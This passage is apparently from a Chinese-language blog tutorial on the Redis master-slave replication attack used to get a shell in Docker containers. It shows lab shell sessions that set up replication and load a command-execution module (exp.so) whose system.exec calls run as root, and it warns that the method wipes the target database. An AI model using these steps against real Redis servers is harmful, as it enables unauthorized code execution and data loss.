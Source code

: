 ### 原理

前言：比起以前的利用方式来说，这种利用方式更为通用，危害也更大，因为随着现代的服务部署方式的不断发展，组件化成了不可逃避的大趋势，docker就是这股风潮下的产物之一，而在这种部署模式下，一个单一的容器中不会有除redis以外的任何服务存在，包括ssh和crontab，再加上权限的严格控制，只靠写文件就很难再getshell了，在这种情况下，我们就需要其他的利用手段了。

redis主从复制：Redis是一个使用ANSI C编写的开源、支持网络、基于内存、可选持久性的键值对存储数据库。但如果当把数据存储在单个Redis的实例中，当读写体量比较大的时候，服务端就很难承受。为了应对这种情况，Redis就提供了主从模式，主从模式就是指使用一个redis实例作为主机，其他实例都作为备份机，其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力，算是一种通过牺牲空间来换取效率的缓解方式。可以通过下来理解，其中`slaveof 172.17.0.2`就是将`172.17.0.2`设置为自己的主节点，主机数据会同步到每个从节点。

```shell
# xiaopo @ fht in ~ [23:34:45] 
$ docker inspect --format='{{.NetworkSettings.IPAddress}}' $(docker ps -a -q)
172.17.0.2
172.17.0.3

# xiaopo @ fht in ~ [23:34:46] 
$ redis-cli -h 172.17.0.3 -p 6379                                            
172.17.0.3:6379> slaveof 172.17.0.2 6379
OK
172.17.0.3:6379> get b
(nil)
172.17.0.3:6379> exit

# xiaopo @ fht in ~ [23:35:14] 
$ redis-cli -h 172.17.0.2 -p 6379
172.17.0.2:6379> get b
(nil)
172.17.0.2:6379> set b 1
OK
172.17.0.2:6379> exit

# xiaopo @ fht in ~ [23:35:22] 
$ redis-cli -h 172.17.0.3 -p 6379
172.17.0.3:6379> get b
"1"
172.17.0.3:6379> 
```

redis主从数据库之间的同步分为两种，全量复制和部分复制，全量复制是将数据库备份文件整个传输过去，然后从节点清空内存数据库，将备份文件加载到数据库中。而部分复制只是将写命令发送给从节点。所以**务必注意此方法会清空目标数据库**。

redis模块：在Reids 4.x之后，Redis新增了模块功能，通过外部扩展，可以实现在redis中实现一个新的Redis命令，通过写c语言并编译出.so文件。比如写一个可以执行系统命令的扩展：
```shell
# xiaopo @ fht in ~ [23:40:02] 
$ redis-cli
127.0.0.1:6379> module load /home/xiaopo/python/POC/redis/redis-rce/exp.so
OK
127.0.0.1:6379> system.exec "id"
"uid=0(root) gid=0(root) groups=0(root)\n"
127.0.0.1:6379> system.exec "whoami"
"root\n"
127.0.0.1:6379> 
```
